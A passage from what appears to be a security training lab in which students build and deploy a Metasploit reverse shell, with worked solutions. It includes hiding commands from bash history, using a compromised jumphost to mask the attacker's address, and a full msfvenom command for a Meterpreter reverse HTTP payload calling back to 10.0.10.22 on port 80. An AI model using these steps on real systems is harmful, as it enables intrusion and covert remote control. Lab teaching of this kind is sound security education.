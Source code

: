 ### Task: Create, deploy and use a reverse shell

[T1608](https://attack.mitre.org/techniques/T1608/), [T0159](https://attack.mitre.org/techniques/T1059/), [T1071.001](https://attack.mitre.org/techniques/T1071/001/)

You can use an ordinary SSH session to access the target but you need to set up BASH history to hide commands you will execute. Another option is spawn a shell, which might be executed after booting the system or reguarly in a predefined period (see [the previous lab](../3/index.md#task-scheduled-taskjob-cron)).

Use Metasploit to create and execute a binary providing a reverse shell.

Use a *jumphost* as a target of the shell. The jumphost (proxy) enables you to hide your network location, i.e. your `attacker` machine IP address. You have already compromised a host and now you will use it.\
The jumphost has IP `10.0.10.22`, username and password is `ubuntu`.

First, install the Metasploit framework on the jumphost. Be prepared for potential issues during the installation process, as not everything may run smoothly; you may need to troubleshoot and resolve some problems along the way.

<details open>
<summary>
Solution
</summary>

* Follow the [Metasploit documentation](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html#installing-metasploit-on-linux--macos).
* The `msfinstall` script outputs `gpg: not found`. Install the utility by `sudo apt install gpg`.
* Start `msfconsole`.
* Answer `yes` to a question on the setup of a new database.

</details>

Generate a Meterpreter reverse shell binary using [`msfvenom`](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) and implant it at the target machine in the 10.0.129.0/24 network.

When choosing a payload, use a protocol, which is allowed for outgoing and incomming traffic from and to the target.

<details open>
<summary>
Solution
</summary>

* Start with discovering whether you can connect back from 10.0.129.2 (desktop) to your jump host, using a command such as `curl`.
* The 10.0.129.2 host runs firewall so you can use only a few ports to establish outgoing connections.
* Once you discover a port you can use, follow the [msfvenom documentation](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).
* List available payloads using `msfvenom -l payloads` and choose the most suitable one, i. e. matching platform (`linux`), CPU architecture (`x86`, see host's Message of the Day), shell (`meterpreter`), and communication protocol (`http`): `linux/x86/meterpreter_reverse_http`.
* List available executable formats using `msfvenom -l formats` and choose the most suitable one, i. e. `elf`.
* Run `msfvenom` with variables set to the destination for your shell, i. e. your jumphost, and to create a binary named `test`: `msfvenom LHOST=10.0.10.22 LPORT=80 -p linux/x86/meterpreter_reverse_http -f elf -o test`
